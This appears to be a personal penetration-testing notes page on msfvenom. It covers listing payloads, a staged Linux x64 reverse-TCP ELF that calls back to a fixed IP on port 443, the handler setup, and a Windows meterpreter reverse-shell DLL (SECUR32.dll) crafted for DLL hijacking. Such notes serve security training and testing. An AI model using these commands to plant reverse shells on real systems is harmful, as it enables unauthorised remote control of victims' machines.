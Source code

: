 ```yaml
---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```


# msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```



## Some flags

```bash
# -b, or --bad-chars: The list of characters to avoid example: '0'

```


## Staged payload

```bash
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile
```

After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything aditional (no metasploit connection), just the netcat listener on the computer.


## crafting a DLL file with a webshell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IPAttacker> LPORT=<4444> -a x86 -f dll > SECUR32.dll
# -p: for the chosen payload
# -a: architecture in the victim machine/application
# -f: format for the output file
```
[More about DLL highjacking in thick client applications](thick-applications/tca-attacking-thick-clients-applications.md#how-is-dll-hijacking-perform).


